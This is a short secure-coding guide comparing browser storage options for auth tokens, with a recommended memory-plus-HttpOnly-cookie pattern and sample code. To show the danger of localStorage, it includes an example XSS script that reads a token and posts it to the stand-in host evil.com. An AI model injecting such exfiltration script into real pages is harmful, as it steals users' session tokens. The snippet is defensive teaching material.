


Choosing where to store tokens in the browser involves security tradeoffs between XSS and CSRF risks.

## Storage Options Compared

| Storage | XSS Risk | CSRF Risk | Persists | Verdict |
|---|---|---|---|---|
| `localStorage` | ❌ High — any script can read | ✅ Low — not auto-sent | ✅ Yes | ❌ Avoid for sensitive tokens |
| `sessionStorage` | ❌ High — same as localStorage | ✅ Low | ❌ No (tab close) | ❌ Avoid for sensitive tokens |
| `HttpOnly Cookie` | ✅ None — JS can't access | ❌ High — auto-sent | ✅ Optional | ✅ Use for refresh tokens |
| `JS memory (variable)` | ✅ Low — not accessible cross-script | ✅ Low | ❌ No (page reload) | ✅ Best for access tokens |
| `Service Worker` | ✅ Good isolation | ✅ Low | ❌ No | ✅ Advanced SPA option |
| `IndexedDB` | ❌ High — JS-accessible | ✅ Low | ✅ Yes | ❌ Avoid for auth tokens |

## Recommended Pattern (SPAs)

```
Access token:   Store in memory (JS variable) — short lived (15 min)
                ↓ lost on page reload, but...
Refresh token:  Store in HttpOnly Secure SameSite=Lax cookie
                ↓ used to silently get new access tokens on reload

On page load:   Call /auth/refresh silently
                ← new access token returned in response body
                ← store in memory variable
                ← refresh token cookie rotated automatically
```

```javascript
// auth.js
let accessToken = null;

export async function initAuth() {
  // Silent refresh on page load — uses HttpOnly cookie automatically
  try {
    const res = await fetch('/auth/refresh', {
      method: 'POST',
      credentials: 'include', // send HttpOnly cookie
    });
    if (res.ok) {
      const data = await res.json();
      accessToken = data.access_token;
    }
  } catch {
    // User not authenticated
  }
}

export function getAccessToken() {
  return accessToken;
}

export async function logout() {
  await fetch('/auth/logout', { method: 'POST', credentials: 'include' });
  accessToken = null;
}
```

## Why NOT localStorage

```javascript
// Attacker injects this script via XSS:
const token = localStorage.getItem('access_token');
await fetch('https://evil.com/steal', {
  method: 'POST',
  body: token, // token exfiltrated
});

// With HttpOnly cookie: this script cannot access the token at all.
```



## Recommended Token Storage — Summary


